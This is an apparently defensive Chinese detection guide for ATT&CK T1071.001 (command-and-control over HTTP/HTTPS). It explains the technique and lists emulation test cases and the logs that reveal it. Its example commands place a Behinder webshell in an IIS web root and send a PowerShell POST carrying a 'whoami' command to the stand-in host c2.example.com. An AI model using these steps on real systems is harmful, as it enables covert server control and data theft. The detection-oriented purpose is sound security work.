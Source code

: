# T1071.001-应用层协议-网络协议

## 描述

攻击者利用与Web流量相关的应用层协议（如HTTP、HTTPS）进行命令与控制（C2）通信，通过与合法流量混合以逃避检测或网络过滤（T1071.001）。HTTP/HTTPS协议因其普遍性和灵活性（如多样的头字段、请求体）常被滥用，攻击者可将C2指令或数据嵌入协议流量，伪装成正常Web请求。常见场景包括使用Webshell（如哥斯拉、冰蝎）通过HTTP POST请求与攻击者控制的服务器通信，执行远程指令或渗出数据。

由于HTTP/HTTPS流量在企业网络中普遍存在，且通常被防火墙允许，攻击者可利用其高隐蔽性规避传统检测。检测重点在于分析异常网络流量模式、Webshell相关进程行为及协议内容偏差。

## 测试案例

1. **Webshell通信模拟**  
   使用哥斯拉或冰蝎Webshell管理工具，通过HTTP/HTTPS与C2服务器通信，执行命令或上传文件。  
2. **HTTP POST数据渗出**  
   使用PowerShell或curl通过HTTP POST请求向外部服务器发送数据，模拟C2通信。  
3. **异常头字段利用**  
   在HTTP请求的自定义头（如User-Agent）中嵌入编码指令。  

### 示例命令
- **Webshell部署**（需Web服务器环境，如IIS/Apache）：
  - 部署冰蝎Webshell（`shell.jsp`）到Web目录：
    ```bash
    copy shell.jsp C:\inetpub\wwwroot\
    ```
  - 使用冰蝎客户端连接：`http://<target>/shell.jsp`。
- **HTTP POST模拟**（PowerShell）：
  ```powershell
  $url = "http://c2.example.com/command"
  $data = @{cmd="whoami"}
  Invoke-WebRequest -Uri $url -Method Post -Body $data
  ```
- **清理**：
  ```powershell
  Remove-Item C:\inetpub\wwwroot\shell.jsp -ErrorAction Ignore
  ```

## 检测日志

**Netflow日志**  
- 记录HTTP/HTTPS流量，捕获源/目标IP、端口、数据量及会话时长。  

**Sysmon日志**  
- **事件ID 1**：记录进程创建，如`powershell.exe`、`w3wp.exe`（IIS进程）或Webshell相关进程。  
- **事件ID 3**：记录网络连接，捕获HTTP/HTTPS请求的目标IP/域名。  
- **事件ID 11**：记录Webshell文件创建或修改。  

**Windows安全日志**  
- **事件ID 4688**：记录可疑进程创建（如`cmd.exe`由`w3wp.exe`触发）。  

**PowerShell日志**  
- **事件ID 4104**：记录PowerShell脚本执行，如`Invoke-WebRequest`。  
